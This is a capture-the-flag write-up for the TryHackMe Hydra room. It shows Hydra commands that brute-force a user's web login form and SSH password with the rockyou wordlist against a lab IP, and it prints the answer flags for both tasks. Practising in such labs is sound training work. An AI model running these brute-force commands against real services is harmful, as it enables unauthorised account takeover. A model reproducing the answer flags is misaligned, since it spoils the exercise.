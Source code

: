 ```yaml
---
description: https://tryhackme.com/room/hydra
---
```


# Hydra

## Task 2 Using Hydra <a href="#title" id="title"></a>

#### Use Hydra to bruteforce molly's web password. What is flag 1?

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt \
'http-post-form://10.10.149.153/login:username=^USER^&password=^PASS^:incorrect' -I
```

![](<../../.gitbook/assets/Screenshot from 2022-03-11 23-24-47.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-11 23-25-52.png>)

{% hint style="success" %}
`THM{2673a7dd116de68e85c48ec0b1f2612e}`
{% endhint %}

#### Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.149.153 \
      -t64 -I
ssh molly@10.10.149.153
cat flag2.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-11 23-20-55.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-11 23-21-38.png>)

{% hint style="success" %}
`THM{c8eeb0468febbadea859baeb33b2541b}`
{% endhint %}
